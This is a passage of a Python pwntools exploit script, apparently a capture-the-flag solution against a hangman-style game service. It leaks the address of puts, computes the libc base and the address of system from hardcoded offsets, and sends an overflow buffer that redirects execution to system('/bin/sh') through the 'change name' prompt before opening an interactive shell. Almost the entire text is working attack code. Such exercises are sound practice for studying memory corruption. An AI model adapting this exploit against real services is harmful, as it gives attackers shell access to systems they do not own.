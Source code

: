 ```python

if m:
	puts = m.group(1)
	print puts
	while len(puts) < 8:
		puts += '\x00'
	print len(puts)
	puts_addr = struct.unpack('<Q', puts)[0]
	print hex(puts_addr)

base = puts_addr - 0x6f5d0
#base = puts_addr - 0x6b990	# bb
rce = base + 0x41347
system = base + 0x45380 # 0x41490

buffer2 = "C"*40
buffer2 += p64(system)
buffer2 += "/bin/sh\n"*100
buffer2 += "\n"

r.sendline("y")
print r.recvuntil("_\n")

for a in string.lowercase:
        r.sendline(a)
print r.recvuntil("High score! change name?\n")
r.sendline("y")
r.send(buffer2)

r.interactive()
#r.sendline("y")
#r.recv()
```
